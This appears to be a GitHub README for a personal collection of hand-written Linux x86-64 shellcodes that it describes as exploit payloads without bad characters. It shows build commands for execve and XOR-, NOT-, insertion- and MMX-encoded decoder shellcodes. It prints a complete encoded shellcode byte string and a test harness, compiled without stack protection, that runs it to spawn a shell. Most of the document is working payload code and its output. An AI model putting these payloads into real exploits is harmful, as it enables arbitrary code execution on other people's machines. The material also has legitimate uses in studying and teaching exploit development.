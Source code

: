 # SHELLCODE WORLD
Hello people, this is a collection of custom shellcodes build from scratch for intel x86-64 bit architecture. Right now the repository contains shellcode specific to only Linux x86-64 and are tried and tested on Ubuntu 18.04. These are made to be used as an exploit payload (i.e. shellcode without any bad character).

##  CONTENT


##  USAGE
All shellcodes are present in the [SHELLCODE_SAMPLES] directory. You can generate shellcode on your own. Just enter the make command as bellow -
```
critical@d3ad:~/ASSEMBLY_64-BIT_CODE/Shellcodes$ make
nasm -f elf64 exit.asm -o ./OBJECT_FILES/exit.o 
nasm -f elf64 message.asm -o ./OBJECT_FILES/message.o
nasm -f elf64 stack_method_message.asm -o ./OBJECT_FILES/stack_method_message.o
nasm -f elf64 message_rip_relative_addressing.asm -o ./OBJECT_FILES/message_rip_relative_addressing.o
nasm -f elf64 stack_method_execve.asm -o ./OBJECT_FILES/stack_method_execve.o
nasm -f elf64 jmp-call-pop_execve.asm -o ./OBJECT_FILES/jmp-call-pop_execve.o
nasm -f elf64 XOR_ENCODER_DECODER/xor_decoder_execve.asm -o ./OBJECT_FILES/xor_decoder_execve.o
nasm -f elf64 NOT_ENCODER_DECODER/not_decoder_execve.asm -o ./OBJECT_FILES/not_decoder_execve.o
nasm -f elf64 INSERTION_ENCODER_DECODER/insertion_decoder_execve.asm -o ./OBJECT_FILES/insertion_decoder_execve.o
nasm -f elf64 MMX-XOR-ENCODER-DECODER/mmx-xordecoder.asm -o ./OBJECT_FILES/mmx-xordecoder.o
```

## EXTRACT SHELLCODE
To extract the shellcode from an object file, use the `./Print_Shellcode` as done bellow -
```
critical@d3ad:~/ASSEMBLY_64-BIT_CODE/Shellcodes$ ./Print_Shellcode 
Enter the name of object file -> ./OBJECT_FILES/mmx-xordecoder.o

\xeb\x1e\x5e\x48\x8d\x7e\x08\x48\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x07\x48\x83\xc7\x08\xe2\xee\xeb\x0d\xe8\xdd\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xe2\x9b\x6a\xfa\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xe2\x23\x4d\xfa\xe2\x23\x48\xfd\xe2\x23\x4c\x1a\x91\xa5\xaf

``` 
where `./OBJECT_FILES/mmx-xordecoder.o` is path to the object file.

## TESTING PAYLOAD
To generate the payload, put the shellcode into file [test_shellcode.c] into the array code[] and test the payload by issuing the bellow given commands-
```
critical@d3ad:~/ASSEMBLY_64-BIT_CODE/Shellcodes$ make payload
gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode

critical@d3ad:~/ASSEMBLY_64-BIT_CODE/Shellcodes$ make runpayload
./test_shellcode
Shellcode length : 92 
$ id
uid=1000(critical) gid=1000(critical) groups=1000(critical),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ 
$ 
$ 

```


Email me regarding any queries,<br>
**NAME** : **ABHINAV THAKUR**<br>
**EMAIL**: **compilepeace@gmail.com**


[SHELLCODE_SAMPLES]: ./SHELLCODE_SAMPLES
[test_shellcode.c]: ./test_shellcode.c
